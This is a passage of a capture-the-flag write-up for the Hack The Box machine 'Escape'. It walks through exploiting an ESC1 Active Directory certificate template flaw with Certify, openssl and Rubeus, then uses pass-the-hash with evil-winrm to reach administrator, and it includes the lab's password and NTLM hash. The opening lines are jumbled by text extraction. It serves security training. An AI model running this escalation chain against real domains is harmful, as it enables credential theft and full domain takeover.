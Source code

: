 ```nxc winrm 10.10.11.202 -u ryan.cooper -p 'NuclearMosquito3'```
[*] Got CA configuration for 'sequel-DC-CA'
[*] Saved BloodHound data to '20240927113639_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20240927113639_Certipy.txt'
[*] Saved JSON output to '20240927113639_Certipy.json'
                                                                                                              
```

Checking the txt file for Vulnerabilities, success we have ESC1 vulnerability 
```bash
┌──(captain㉿kali)-[~/Documents/HTB/escape]
└─$ cat enum/20240927113639_Certipy.txt| grep -i vulne -A2
    [!] Vulnerabilities
      ESC1                              : 'SEQUEL.HTB\\Domain Users' can enroll, enrollee supplies subject and template allows client authentication
```
READ MORE on how to exploit it here - ![Certipy-GitHub](https://github.com/ly4k/Certipy?tab=readme-ov-file#esc1)

When we run the commands they do not go through, but we can enumerate the other way by uploading Certify.exe on the box and running it 
![image](https://github.com/user-attachments/assets/18b5eb89-c67c-41c5-b7a0-974cf9fa68d1)

This shows that the machine is vulnerable to UserAuthentication.

Ok now we know the machine is vulnerable, we can run the command ```./Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:administrator``` to get the certificate needed to request the TGT

Lets copy paste the data into cert.pem on our attacking machine and generate a pfx file from it so we can request the admin NTLM hash using rubeus 
Command - ```openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx```

now lets upload Rubeus and the certificate pfx on the box and run Rubeus to give us the admin hash

```./Rubeus.exe asktgt /user:administrator /certificate:cert.pfx /getcredentials /show```

And BOOM we get the admin hash - This can be abused using PTH

![image](https://github.com/user-attachments/assets/079b2251-ab78-4deb-8405-d65d5b508823)

Now we can WinRM with the hash and grab the root.txt-
```bash
┌──(captain㉿kali)-[~/Documents/HTB/escape]
└─$ evil-winrm -i 10.10.11.202 -u administrator -H 'A52F78E4C751E5F5E17E1E9F3E58F4EE'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        9/27/2024   1:01 PM             34 root.txt
```